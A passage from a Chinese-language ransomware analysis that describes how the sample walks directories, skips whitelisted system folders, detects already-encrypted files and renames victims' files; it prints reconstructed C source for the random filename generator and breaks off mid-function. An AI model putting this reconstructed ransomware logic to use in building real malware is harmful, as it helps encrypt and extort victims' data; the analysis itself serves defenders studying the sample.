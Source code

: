 DoFileEncryption会遍历目标磁盘目录下所有的文件夹和文件。

遇到子目录，会检查目录名字，进行CRC32检验，看是否在白名单里（这样，“windows”，“system32”，“temp”这样的文件夹被过滤掉）。而且检查`HELP_YOUR_FILES.PNG`是否存在，如果不存在，就继续调用DoFileEncryption,参数是当前的目录。

对文件的检查做了两次：扩展名和文件名。没有在白名单里面的，会调用EncryptFile来进行加密。

“EncryptFile”函数，是用来将目标文件加密的。“IsFileAlreadyEncrypted"函数会检查目标文件是否已经被加密：读取最开始的16字节，然后和公钥的MD5值作比较。

这个时候，恶意程序会生成随机的文件名和扩展名。下面是算法：（用的RtlRandomEx API获得每一个可打印字符）

```
// Generate a random value
DWORD GenerateRandValue(int min, int max) {
    if (min == max) return max;
    // Get the random value
    DWORD dwRandValue = RtlRandomEx(&g_qwStartTime.LowPart);
    DWORD dwDelta = max - min + 1;
    dwRandValue = (dwRandValue % dwDelta) + min;
    return dwRandValue;
}
// Generate a Random unicode string
LPWSTR GenerateRandomUString(int minSize, int maxSize) {
    DWORD dwStringSize = 0;             // Generated string size
    DWORD dwNumOfDigits = 0;            // Number of number letters inside the string
    LPWSTR lpRandString = NULL;         // Random unicode string
    // Generate the string size, and alloc buffer
    dwStringSize = GenerateRandValue(minSize, maxSize);
    lpRandString = new TCHAR[dwStringSize+1];
    for (int i = 0; i < (int)dwStringSize; i++) {
          DWORD dwLetter = 0;                       // Generated letter
          dwLetter = GenerateRandValue(0, 1000);
          dwLetter = (dwLetter % 26) + (DWORD)'a';
          lpRandString[i] = (TCHAR)dwLetter;
    }
    // NULL-terminate the string
    lpRandString[dwStringSize] = 0;
    // Now insert the digits inside the string
    DWORD dwUpperHalf = GenerateRandValue(dwStringSize / 2, dwStringSize);
    dwNumOfDigits = GenerateRandValue(1, dwUpperHalf);
    for (int i = 0; i < (int)dwNumOfDigits; i++) {
          DWORD dwValue = 0, dwPos = 0;       // Generated value and position
          dwValue = GenerateRandValue(0, 9) + (DWORD)'0';
          dwPos = GenerateRandValue(0, dwStringSize-1);
          lpRandString[dwPos] = (TCHAR)dwValue;
    }
    return lpRandString;
}
// Generate a random file name starting from a file full path
BOOLEAN GenerateRandomFileName(LPWSTR lpFileFullPath, LPWSTR * lppNewFileFullPath,
 LPWSTR * lppOrgFileName) {
    LPWSTR lpRandFileName = NULL;         // New random file name (without extension)
    LPWSTR lpRandExt = NULL;              // New random file extension
    LPWSTR lpNewFileName = NULL;          // The new file full name
    DWORD dwSize = 0;                     // size of the new filename
    // Check the arguments
    if (!lpFileFullPath || !lppNewFileFullPath || !lppOrgFileName)
          return FALSE;
    // Generate the new file name (without extension)
    lpRandFileName = GenerateRandomUString(5, 10);
    // Generate the random file extension
    lpRandExt = GenerateRandomUString(2,5);
    // Combine the new file name and extension and generate the final new file path
    // ....
    dwSize = wcslen(lpRandFileName) + wcslen(lpRandExt) + 1;
    lpNewFileName = new TCHAR[dwSize+1];
```